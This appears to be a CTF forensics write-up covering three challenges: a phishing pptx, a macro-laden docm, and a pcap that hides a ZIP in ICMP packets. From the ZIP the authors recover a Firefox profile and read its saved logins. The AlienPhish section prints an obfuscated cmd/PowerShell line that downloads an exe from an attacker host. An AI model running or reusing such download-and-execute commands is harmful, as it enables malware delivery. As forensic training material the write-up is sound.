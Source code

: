 # Forensics

## AlienPhish

> Solved by : Starry-Lord

* Unzip and find 'Alien Weaknesses.pptx'
* Unzip again and go to ppt/slides/_rels/
* Read slide1.xml.rels to find a suspicious relation tag

```
    cmd.exe%20/V:ON/C%22set%20yM=%22o$%20eliftuo-%20exe.x/neila.htraeyortsed/:ptth%20rwi%20;'exe.99zP_MHMyNGNt9FM391ZOlGSzFDSwtnQUh0Q'%20+%20pmet:vne$%20=%20o$%22%20c-%20llehsrewop&amp;&amp;for%20/L%20%25X%20in%20(122;-1;0)do%20set%20kCX=!kCX!!yM:~%25X,1!&amp;&amp;if%20%25X%20leq%200%20call%20%25kCX:*kCX!=%25%22
```

* Go to cyberchef 
* From url decode 
* Reverse 

```
    "%=!XCk*:XCk% llac 0 qel X% fi;pma&;pma&!1,X%~:My!!XCk!=XCk tes od)0;1-;221( ni X% L/ rof;pma&;pma&powershell -c "$o = $env:temp   'Q0hUQntwSDFzSGlOZ193MF9tNGNyMHM_Pz99.exe'; iwr http:/destroyearth.alien/x.exe -outfile $o"=My tes"C/NO:V/ exe.dmc
```

```
    Q0hUQntwSDFzSGlOZ193MF9tNGNyMHM_Pz99
```

* From base64 and select the urlSafe alphabet

```
CHTB{pH1sHiNg_w0_m4cr0s???}
```

----------

## Invitation

> Solved By : Starry-Lord

* So we get a docm file. 
* I start by unzippping the word document 
* We get a docm
* Unzip it again and see folders

![](https://i.imgur.com/Q7ZRb7J.jpg)

**PART 1**

* First thing I tried to do after looking around was 

```bash
strings vbaProject.bin
```

* Which gives back interesting hex lines. 

![](https://i.imgur.com/knF1In2.jpg)

* Then decrypt from hex

![](https://i.imgur.com/RNhR8uO.jpg)

* From base64 urlsafe alphabet will show the following 

![](https://i.imgur.com/clunBcD.jpg)

```
CHTB{maldocs_are
```

**PART 2**

* Upload full vbaProject file this time and do the same as before. 

![](https://i.imgur.com/wgeYgSG.jpg)

* Use base64 urlsafe alphabet
* We get second part of the flag by reversing

```
_the_new_meta}
```
```
CHTB{maldocs_are_the_new_meta}
```

----------

## Oldest trick in the book

> Solved by : thewhiteh4t


* We are given a pcap which consists of mostly TLS and ICMP traffic
* ICMP looks promising as we can see the header of ZIP file `PK`

![](https://i.imgur.com/bcZ05AG.png)

* Another thing was that the the traffic from both IP address was similar I focused on only one of them


![](https://i.imgur.com/Iq12mh1.png)

* To extract data of all these packets I used tshark

```bash
$ tshark -r older_trick.pcap -T fields -e data.data -Y "ip.src == 192.168.1.7" > 192.168.1.7.txt
```

* After this I looked for duplicate packets in the text file

![](https://i.imgur.com/NoiYgXk.png)

* So we have 10127 unique icmp data packets
* To decode hex and compile all the data I created a small python script
* But I was not getting proper file format of resultant file so I inspected the data
* There were duplicates in the data as well!

```
b7ae04 0000000000 504b0304140000000000729e8d52659b 504b0304140000000000729e8d52659b 504b030414000000
ead104 0000000000 4c6b1800000018000000100000006669 4c6b1800000018000000100000006669 4c6b180000001800
99e804 0000000000 6e692f6164646f6e732e6a736f6e7b22 6e692f6164646f6e732e6a736f6e7b22 6e692f6164646f6e
cafb04 0000000000 736368656d61223a362c226164646f6e 736368656d61223a362c226164646f6e 736368656d61223a
```

* This is the data from first 4 packets for an example
* After first 6 characters we have 10 zeroes
* After that a unique string
* The string is repeated after that
* Then a partial repetition can be seen at the end
* I tried various combinations and in the end only the unique string was needed from each packet i.e `504b0304140000000000729e8d52659b` for first line as an example

```python
#!/usr/bin/env python3
import binascii
msg = []
with open('unique.txt', 'r') as raw:
    raw_arr = raw.readlines()
for line in raw_arr:
    if len(line) == 97:
        line = line.strip()
        line = line[16:48]
        plain = binascii.unhexlify(line)
        msg.append(plain)
with open('result.zip', 'wb') as res:
    for line in msg:
        res.write(line)
```

* The script iterates over each line in the file and skips empty lines if it finds any
* Then it slices of extra characters as stated above
* Then it decodes the hex into binary data and appends it in a file

![](https://i.imgur.com/H2fC7L3.png)

* And we get a proper zip file!
* Here are the extracted contents of the zip

![](https://i.imgur.com/8a1GAJB.png)

* After some enumeration of all files they point towards Mozilla Firefox
* After some googling I found that this is a firefox profile dump
* In linux the default path for profiles is `/home/user/.mozilla/firefox`
* I copied the folder into profiles folder and then edited the `profiles.ini` file present inside it to add the following entry

```
[Profile2]
Name=fini
Path=fini
IsRelative=1
```

* After this I launched firefox from CLI using 

```bash
$ firefox -P
```

* It provides an option to choose a specific profile and launch the browser with it

![](https://i.imgur.com/KZzqT9x.png)

* After the browser launched with the new profile and checked the saved logins and here we have the flag!

![](https://i.imgur.com/dHKQmSM.png)